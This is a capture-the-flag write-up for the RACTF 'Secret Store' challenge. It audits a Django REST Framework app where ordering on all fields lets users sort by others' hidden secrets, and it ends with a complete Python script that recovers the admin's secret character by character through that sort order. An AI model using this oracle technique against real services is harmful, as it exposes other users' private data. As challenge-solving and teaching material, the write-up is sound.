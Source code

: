 ## RACTF - Secret Store [ 300 points ] (6 solves)
**Description**

> How many secrets could a secret store store if a store could store
> secrets?

## General overview
The web app is a Django application where you can register/login as a user and save a secret text which shouldn't be visible to anyone else except you in your home page when you login. Other users can also post their own secret text and the goal is to find a way to stole the secret from other users in order to read the flag from the admin.
## Code audit
There is a rest framework implemented with [djangorestframework](https://pypi.org/project/djangorestframework/) for the secret text that users are posting. We can peek a look at his views and models inside the secret folder where the source is located. We can see the secret's model inside secret/models.py:

```python
    class  Secret(models.Model):
		value  =  models.CharField(max_length=255)
		owner  =  models.OneToOneField(User, on_delete=CASCADE)
		last_updated  =  models.DateTimeField(auto_now=True)
		created  =  models.DateTimeField(auto_now_add=True)
And there is a model serializer for the model Secret inside secret/serializers.py:

    class  SecretSerializer(serializers.ModelSerializer):
		class  Meta:
			model  =  Secret
			fields  = ["id", "value", "owner", "last_updated", "created"]
			read_only_fields  = ["owner", "last_updated", "created"]
			extra_kwargs  = {"value": {"write_only": True}}

		def  create(self, validated_data):
			validated_data["owner"] =  self.context["request"].user
			if  Secret.objects.filter(owner=self.context["request"].user):
				return  super(SecretSerializer, self).update(Secret.objects.get(owner=self.context['request'].user), validated_data)
			return  super(SecretSerializer, self).create(validated_data)
```
From the serializer we can see that the fields owner, last_updated, created and (implicitly) the id are read only, and the value field is write only.
Inside secret/views.py we can see the views of the web app and what they are doing:
```python
    class  SecretViewSet(viewsets.ModelViewSet):
		queryset  =  Secret.objects.all()
		serializer_class  =  SecretSerializer
		permission_classes  = (IsAuthenticated  &  IsSecretOwnerOrReadOnly,)
		filter_backends  = [filters.OrderingFilter]
		ordering_fields  =  "__all__"

	class  RegisterFormView(CreateView):
		template_name  =  "registration/register.html"
		form_class  =  UserCreationForm
		model  =  User
		success_url  =  "/"

	def  home(request):
		if  request.user.is_authenticated:
			secret  =  Secret.objects.filter(owner=request.user)
		if  secret:
			return  render(request, "home.html", context={"secret": secret[0].value})
		return  render(request, "home.html")
```
We can see the home page view which just asks the database if a logged in user has a secret and displays it to him if it does, inside the home page. Apart from this view we can see that is implemented a ViewSet which is basically an easy automated way to query the database and display to the user the results. In our case we can get a json with all read only fields of the Secret serializer for example visiting [http://challange/api/secret?format=json](https://www.django-rest-framework.org/api-guide/format-suffixes/) we get as a result:

    [{"id":1,"owner":1,"last_updated":"2021-08-04T21:55:59.750611Z","created":"2021-08-04T21:55:32.221867Z"},{"id":2,"owner":8,"last_updated":"2021-08-13T20:16:05.306976Z","created":"2021-08-13T20:16:05.307065Z"},{"id":3,"owner":12,"last_updated":"2021-08-13T22:17:15.718312Z","created":"2021-08-13T21:41:25.913725Z"},{"id":4,"owner":113,"last_updated":"2021-08-14T16:08:40.385043Z","created":"2021-08-14T16:07:45.011707Z"},{"id":5,"owner":111,"last_updated":"2021-08-14T17:50:00.910477Z","created":"2021-08-14T17:50:00.910544Z"},{"id":6,"owner":126,"last_updated":"2021-08-15T08:23:42.895236Z","created":"2021-08-15T08:04:32.918062Z"},{"id":7,"owner":129,"last_updated":"2021-08-15T08:53:06.531769Z","created":"2021-08-15T08:53:06.531818Z"},{"id":8,"owner":133,"last_updated":"2021-08-15T17:48:13.303999Z","created":"2021-08-15T12:34:30.069458Z"},{"id":9,"owner":134,"last_updated":"2021-08-15T17:17:50.206823Z","created":"2021-08-15T17:17:33.212906Z"}]
Reading carefully django's rest framework documentation for [OrderingFilter](https://www.django-rest-framework.org/api-guide/filtering/#orderingfilter) we can see that we can supply an ordering query parameter to filter (sort) out our json output to our needs. Reading further the documentation we spot the following line:

> If you are confident that the queryset being used by the view doesn't contain any sensitive data, you can also explicitly specify that a view should allow ordering on _any_ model field or queryset aggregate, by using the special value `'__all__'`.

Which is exactly our case :), our own little SecretViewSet specifies that we can filter by any field our query, so basically we can post a secret with initial value `ractf{` , order the output by `values` and compare our own secret value with the admin's secret value which i assume is the user with id=1 and owner=1.
## Exploit

```python
import requests
from bs4 import BeautifulSoup
import json
import string

def find_owner(orderings, owner):
    for i, ordering in enumerate(orderings):
        if ordering['owner'] == owner:
            return i
    
    #Owner not found in orderings
    return None

session = requests.Session()
url = 'http://challenge:port' # Change this
login_url = f'{url}/auth/login/'
logout_url = f'{url}/auth/logout/'
api_secret_url = f'{url}/api/secret/'

r = session.get(url = login_url)
parse = BeautifulSoup(r.text, "html.parser")

# Extract csrf token to be able to login
csrf_token = parse.find_all('input')[0]['value']

# You have to register agent007 first.
post_data = {
    'csrfmiddlewaretoken': csrf_token,
    'username': 'agent007',
    'password': 'SecretPassword007.'
}

flag = r'ractf{' # Final flag ractf{data_exf1l_via_s0rt1ng_0c66de47}

# Sign in to agent007
r = session.post(url  = login_url, 
                 data = post_data)

# Let's save some secrets ;)
r = session.post(url = api_secret_url, 
                 json = {
                     'value': flag
                 }, 
                 headers = {
                     'X-CSRFToken': session.cookies['csrftoken']
                 }
)

print(f'Status code === {r.status_code}')
_, owner, _, _ = json.loads(r.text).values() # Get our owner id in order to be able to recognize our position in the final orderings

# When positive means we surpassed the flag value
# When negative means we need to go forward
# When from negative becomes positive it means the previous character was the correct character of the nth pos of the flag
cmp = 0

alphabet = string.digits + ':_`' + string.ascii_letters + '}~'
while not '}' in flag:
    # Iterate through every character in the alphabet
    # Post the flag appended with this character as our little secret and compare the results to bruteforce the characters of the flag
    for c in alphabet:
        r = session.post(url = api_secret_url, 
                    json = {
                        'value': flag + c
                    }, 
                    headers = {
                        'X-CSRFToken': session.cookies['csrftoken']
                    }
        )
        
        orderings = json.loads(
            session.get(url = api_secret_url + '?format=json&ordering=value').text
        )
        
        orderings_user_idx = find_owner(orderings, owner)
        orderings_flag_idx = find_owner(orderings, owner = 1)
        cmp = orderings_flag_idx - orderings_user_idx
        if cmp < 0:
            prev_c = chr(ord(c)-1)
            print(flag + prev_c)
            flag += prev_c
            break
```

